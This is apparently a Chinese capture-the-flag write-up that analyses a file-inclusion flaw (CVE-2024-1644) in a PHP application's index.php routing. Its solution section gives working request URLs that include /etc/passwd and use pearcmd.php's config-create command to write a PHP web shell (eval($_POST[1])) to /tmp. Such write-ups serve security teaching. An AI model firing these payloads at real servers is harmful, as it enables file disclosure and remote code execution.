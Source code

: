 ### CVE-2024-1644分析

根据提示的CVE-2024-1644 可知，主要的漏洞点如下所示：

首先在index.php，会调用到一个$kernel-&gt;getLegacyRoute($request)函数，主要是对请求的url进行处理，获取道文件路径后，进行require包含，跟入getLegacyRoute看看；

![image-20240425201807769](https://shs3.b.qianxin.com/attack_forum/2024/04/attach-4d18abaea088c045fdcbdcfa185279e88958946b.png)

这里没啥处理，继续跟入；

![image-20240425201851066](https://shs3.b.qianxin.com/attack_forum/2024/04/attach-725e13c17edc47ab85f2d3c12a20ee3027ec21d1.png)

return返回了一个Handler调用的`getIncludeFile`函数，传入的参数还是`$request`；

![image-20240425201912879](https://shs3.b.qianxin.com/attack_forum/2024/04/attach-7213a226059ebe1487ffdd3d1157110eb098128e.png)

最后来到真正处理的函数，下面解释一下处理流程：

1. 首先是`getPathInfo`获取了`index.php`后面跟着的值`$baseUrl`；例如`http://xxxx/index.php/123/123.php`，就是获取了`/123/123.php`;
2. 然后对这个获取的`$baseUrl`值进行第一个字符串的截取，不要第一个字母；
3. if判断的时如果这个`$baseUrl`不是以.php结尾，就会自行在结尾添加一个index.php；
4. 最后返回一个数组，其中"file"键对应的值是这个`$baseUrl`；

因此，通过上面的处理流程，我们知道明显有文件包含的漏洞；

只要我们的url是这样的`http://xxxx/index.php//etc/passwd`，经过处理返回后，就能包含`require '/etc/passwd'`

![image-20240425201955602](https://shs3.b.qianxin.com/attack_forum/2024/04/attach-34e4221ae2bf8a34b6adb4c98748a66d9c805ce1.png)

主要是在`index.php`处可以进行文件包含，如下图所示，直接加根路径即可，因此可以进pearcmd文件的包含：

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/04/attach-66c91e838da896808a5bf49ff0f961f7ba24abc7.png)

### 解题过程

注意：**这一题需要改一下转发的端口80-》81**

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/04/attach-e24da7b95d0bff3025f32b6af06a0d649ab3c915.png)

```php
config-create命令：  
第一个参数似乎是目录，所以最前面一定要加一个/，第二个参数是文件，所以用绝对路径好一些，由于是通过+号来分割命令的，所以写入的第一个参数即php恶意代码不能有空格，同时也不能进行url编码，因为他没有进行解码写入。  
所以第一个参数要求一定要/<?=xxxx?>这样啊；  
第二个参数要求是一个文件路径，直接/tmp/xxx即可  
/index.php//usr/local/lib/php/pearcmd.php  
/index.php//usr/local/lib/php/pearcmd.php?+config-create+/<?=phpinfo();?>+/tmp/1.php  
/index.php//usr/local/lib/php/pearcmd.php?+config-create+/<?=eval($\_POST\[1\]);?>+/tmp/1.php
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/04/attach-254e3e78ab6fd07d9f2dda24163015d603c5bbc0.png)

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/04/attach-a8595ceeed18f6d579a9c239923d4a4ec7acc08a.png)
